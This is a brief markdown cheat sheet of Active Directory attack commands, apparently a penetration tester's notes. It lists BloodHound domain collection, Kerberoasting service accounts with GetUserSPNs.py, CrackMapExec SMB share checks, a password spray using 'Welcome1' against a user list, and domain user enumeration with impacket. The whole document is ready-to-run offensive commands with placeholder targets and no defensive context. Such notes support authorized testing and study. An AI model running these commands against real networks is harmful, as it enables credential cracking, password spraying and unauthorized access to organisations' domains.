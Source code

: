 Bloodhound From Kali
---------------------------------------------------------------
`bloodhound-python -u adusername -d domain.corp -v -c dconly -ns x.x.x.x`
`bloodhound-python -u adusername -d domain.corp -v -c all -ns x.x.x.x`

Kerberoast SPNS
---------------------------------------------------------------
`python3 GetUserSPNS.py -request domain.corp/adusername -dc-ip x.x.x.x`

CrackMapExec
---------------------------------------------------------------
Check for smb access  
`cme smb -u username -p Welcome1 --shares final.txt`

Password spray against user list  
`cme smb -u usernamesonly.txt -p Welcome1 -d domain.corp  x.x.x.x(target)`

Grab user list  
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all domain.corp/aduser -dc-ip x.x.x.x`
